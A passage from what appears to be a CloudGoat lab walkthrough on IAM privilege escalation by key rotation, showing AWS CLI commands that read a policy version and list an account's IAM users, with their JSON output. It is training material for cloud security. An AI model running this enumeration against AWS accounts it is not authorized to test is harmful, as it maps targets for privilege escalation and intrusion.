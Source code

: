 The above result provided us a `IAMReadOnlyAccess` policy version, which is `v4`

Get `IAMReadOnlyAccess` policy permission
```shell
aws --profile kerrigan_manager iam get-policy-version --policy-arn arn:aws:iam::aws:policy/IAMReadOnlyAccess --version-id v4
```

Result:
```json
{
    "PolicyVersion": {
        "Document": {
            "Version": "2012-10-17",
            "Statement": [
                {
                    "Effect": "Allow",
                    "Action": [
                        "iam:GenerateCredentialReport",
                        "iam:GenerateServiceLastAccessedDetails",
                        "iam:Get*",
                        "iam:List*",
                        "iam:SimulateCustomPolicy",
                        "iam:SimulatePrincipalPolicy"
                    ],
                    "Resource": "*"
                }
            ]
        },
        "VersionId": "v4",
        "IsDefaultVersion": true,
    }
}
```

This policy allowed the manager user
- get and list iam components such as users, roles, and policies.

From the information that we got so far, we cannot do anything much with the manager user, so let's explore more about other users.

### Get all users in this AWS account
```shell
aws --profile kerrigan_manager iam list-users
```

Result:
```json
{
    "Users": [
        {
            "Path": "/",
            "UserName": "admin_iam_privesc_by_key_rotation_###",
            "Arn": "arn:aws:iam::###:user/admin_iam_privesc_by_key_rotation_###"
        },
        {
            "Path": "/",
            "UserName": "cloudgoat",
            "Arn": "arn:aws:iam::###:user/cloudgoat"
        },
        {
            "Path": "/",
            "UserName": "developer_iam_privesc_by_key_rotation_###",
            "Arn": "arn:aws:iam::###:user/developer_iam_privesc_by_key_rotation_###"
        },
        {
            "Path": "/",
```